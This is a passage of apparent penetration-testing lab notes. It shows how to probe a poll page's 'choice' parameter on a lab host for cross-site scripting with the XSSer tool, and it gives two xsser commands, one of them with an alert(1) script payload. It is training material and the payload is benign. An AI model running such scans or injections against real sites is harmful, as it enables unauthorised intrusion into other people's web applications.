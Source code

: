 - Perform an XSS Poll Question attack over `GET` request
  - `http://192.131.167.3/index.php?page=user-poll.php`
  - copy the `URL`, replace the `nmap` value with **`XSS`** and pass it to XSSer
    - `http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=nmap&initials=2&user-poll-php-submit-button=Submit+Vote`

```bash
xsser --url "http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=2&user-poll-php-submit-button=Submit+Vote"
```

![](1-webapp-httpassets/image-20230505002804916.png)

```bash
xsser --url "http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=2&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"
```

![](1-webapp-httpassets/image-20230505002847054.png)
